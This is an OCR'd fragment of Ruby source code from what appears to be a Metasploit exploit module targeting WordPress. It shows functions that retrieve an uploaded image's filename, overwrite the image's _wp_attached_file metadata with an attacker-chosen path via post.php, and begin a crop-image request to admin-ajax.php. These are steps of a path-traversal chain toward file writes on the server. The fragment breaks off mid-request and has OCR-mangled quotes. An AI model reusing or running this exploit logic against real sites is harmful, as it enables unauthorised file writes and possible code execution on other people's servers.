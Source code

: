 ```
fail_with(Failure::NotFound, ‘Unable to access page to retrieve filename’) unless res && res.code == 200 && res.body && !res.body.empty?

filename = res.body.scan(/(#{img_name}-\S+)-/).flatten.first

fail_with(Failure::NotFound, ‘Unable to retrieve file name’) unless filename

```
filename &lt;&lt; '.jpg' 
```

end

def change_path(wpnonce2, image_id, filename, current_date, path, cookie)

uri = normalize_uri(datastore[‘TARGETURI’], ‘wp-admin’, ‘post.php’)

res = send_request_cgi(

‘method’   => ‘POST’,

‘uri’      => uri,

‘cookie’ => cookie,

‘vars_post’  => {

‘_wpnonce’ => wpnonce2,

‘action’ => ‘editpost’,

‘post_ID’ => image_id,

‘meta_input[_wp_attached_file]’ => “#{current_date}#{filename}#{path}”

}

)

end

def crop_image(image_id, ajax_nonce, cookie)

uri = normalize_uri(datastore[‘TARGETURI’], ‘wp-admin’, ‘admin-ajax.php’)

res = send_request_cgi(

‘method’   => ‘POST’,

‘uri’      => uri,

‘cookie’ => cookie,

‘vars_post’  => {

‘action’ => ‘crop-image’,

‘_ajax_nonce’ => ajax_nonce,

‘id’ => image_id,

‘cropDetails[x1]’ => 0,

```